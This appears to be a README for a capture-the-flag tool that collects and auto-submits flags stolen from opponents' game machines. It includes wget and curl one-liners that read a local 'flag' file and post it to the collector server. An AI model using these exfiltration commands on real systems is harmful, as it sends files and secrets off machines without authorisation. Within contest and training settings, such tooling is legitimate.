 
[TOC]

# flagserver

## 运行 
```
python2/3 main.py
```
## Gamebox 发送flag的方法
### GET 方式
http://127.0.0.1:62088/flag/Flag_In_Here  
http://127.0.0.1:62088/flag/Flag_In_Here/Ip_In_Here

use in Gamebox
```
#retry -t 2 ,timeout -T 2,https --no-check-certificat
wget -O- -q -T 2 -t 2 http://127.0.0.1:62088/flag/`cat flag`

#retry --retry 2 ,timeout -m 2,https -k
curl -m 2 --retry 2 -s http://127.0.0.1:62088/flag/`cat flag`
```


### POST 方式
http://127.0.0.1:62088/flag  Postdata: flag=Flag_In_Here  
http://127.0.0.1:62088/flag  Postdata: flag=Flag_In_Here&ip=Ip_In_Here  
http://127.0.0.1:62088/flagx  Postdata: Flag_In_Here  

use in Gamebox  

```
wget -O- -q -T 2 -t 2 --post-data flag=`cat flag` http://127.0.0.1:62088/flag
curl -m 2 --retry 2 -s -d flag=`cat flag` http://127.0.0.1:62088/flag

wget -O- -q -T 2 -t 2 --post-file flag http://127.0.0.1:62088/flagx
cat flag |curl -d @- -m 2 --retry 2 -s http://127.0.0.1:62088/flagx
curl -d @flag -m 2 --retry 2 -s http://127.0.0.1:62088/flagx

```

## 显示flag
### 显示每个IP最新的flag  
多次接收到同一个IP的不同flag，仅显示最后一个flag  
HTML  http://127.0.0.1:62088/secret/static/givemeflag/index.html  
json  http://127.0.0.1:62088/secret/showflagjson  

### 显示接收到的所有flag   
多次接收到同一个IP的同一个flag，时间为第一次接收的时间  
HTML  http://127.0.0.1:62088/secret/static/givemeflag/showallflag.html  
txt   http://127.0.0.1:62088/secret/showallflag  
json  http://127.0.0.1:62088/secret/showallflagjson  


*注意： 地址中的secret ，为main.py 变量secret_key的值，请注意修改。否则有可能自己的flag被别人偷走。*



## Clear Data
```
rm -f db.db
```

**********
# flag_auto_submit
1. 请抓取flag提交时的http请求到flag_submit_request.txt，并将其中的ip和flag部分替换为 {ip}、{flag}  。  
1. flag自动提交模块，将会从数据库flag_submit表(该表中存放接收到的所有不重复的flag，时间为第一次接收到的时间)中，取出提交次数小于等于3次进行提交（可自行修改sql语句进行更改）。  
1. 脚本会自动替换flag_submit_request.txt 中的{ip}、{flag}为ip 和 flag 进行提交。   

由于windows下db文件连接为独占模式，将windows下直接update数据库，改为了调用flagserver web接口(新增了updateflagstatus接口)来update。方法很low，一点都不优雅。

